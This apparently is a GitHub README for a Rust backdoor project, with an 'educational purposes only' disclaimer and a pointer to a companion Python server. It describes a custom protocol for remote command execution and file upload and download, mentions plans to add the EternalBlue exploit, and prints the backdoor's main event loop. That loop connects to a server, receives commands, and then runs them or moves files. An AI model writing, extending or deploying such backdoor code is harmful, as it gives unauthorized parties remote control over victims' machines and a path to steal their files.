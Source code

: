 # Project Overview

## Introduction

This project stems from my interest in protocols and security, leading to the creation of a small backdoor and a proprietary protocol. The project is currently in development, with the backdoor's functionality completed and exploitation being implemented. I plan to use the EternalBlue exploit, and the entire backdoor and exploits are being developed exclusively in the Rust programming language.

**Note:** This project is still in progress.

## Features

- **Backdoor Functionality:** The backdoor's core functionality is complete and can be found in the `main.rs` file.
- **Exploits:** Exploits are being implemented in the `exploits.rs` file, currently featuring code for executing commands.
- **Dedicated Protocol:** The backdoor utilizes a dedicated protocol implemented in the `stprotocol.rs` file. It supports basic functionalities such as file upload, file download, and command execution.
- **Packet Structure:** The `structure.rs` file is dedicated to packet construction for the proprietary protocol, supporting packet conversion, serialization, and deserialization.

## Usage

### Backdoor

This project currently performs only basic functionalities.
However, if you wish to customize this project, please read the following guidelines. Below is an example code:

```
mod exploits;
mod stprotocol;
mod structure;

use exploits::{Exploits, Malware};
use std::thread;
use stprotocol::{Client, Session};
use structure::{Detector, Generator, StoneTransferProtocol, StructStone};

fn main() {
    let handle_server = thread::spawn(|| {
        event_loop(
            Session::new("127.0.0.1:6974".to_string()),
            StructStone::default(),
        )
    });

    handle_server
        .join()
        .expect("Connection to server is lost for unknown reasons. Backdoor terminated.");
}

fn event_loop(mut client: Session, mut packet: StructStone) {
    let mut exploit = Exploits::default();
    loop {
        // Loop for continuous communication with the server after creating a session

        packet = client.receiving(StructStone::default()); // Wait for the server's response after connection request

        println!("Server response type: {:?}", packet.get_type());

        match packet.get_type() {
            // Generate requests based on the server's response type
            StoneTransferProtocol::ExecuteCmd => {
                // If the type is ExecuteCmd
                client.exploit(exploit.command(packet));
            }
            StoneTransferProtocol::Download => {
                // If the type is Download
                client.download(packet);
            }
            StoneTransferProtocol::Upload => {
                // If the type is Upload
                client.upload(packet);
            }
            StoneTransferProtocol::Disconnect => {
                client.disconnect();
                break;
            } // If the server's response is Disconnect, terminate the connection

            _ => client.send(packet.get_stone()), // If the response type is not mentioned above, send a request similar to the server's response
        };
    }
}
```

1. **main.rs:** Contains the core functionalities of the backdoor.
2. **exploits.rs:** Manages the implementation of backdoor exploits.
3. **stprotocol.rs:** Houses the backdoor's proprietary protocol, supporting features like file upload, file download, and command execution.
4. **structure.rs:** Provides packet configuration for the protocol, including packet conversion, serialization, and deserialization.

### Customization

If you wish to customize this project, you can modify the code in the respective files: exploits.rs, stprotocol.rs, and structure.rs. Follow the provided comments for guidance.

Feel free to tailor the code to your specific requirements and functionalities. Remember to consider security implications and best practices when making changes.

Note: Ensure that your modifications comply with ethical standards and legal regulations. Unauthorized use of this code for malicious purposes is strictly prohibited.

## Python Server

This project includes a dedicated Python server. If you want the Python server, please visit [JustServer](https://github.com/3QNRpDwD/JustServer).

## How to Contribute

1. Fork this repository.
2. Create a new branch (`git checkout -b feature/new-feature`).
3. Make your changes (`git commit -am 'Add new feature'`).
4. Push to the branch (`git push origin feature/new-feature`).
5. Open a Pull Request.

## License

Open Source

**Disclaimer:** This project is for educational purposes only. Unauthorized use is strictly prohibited.
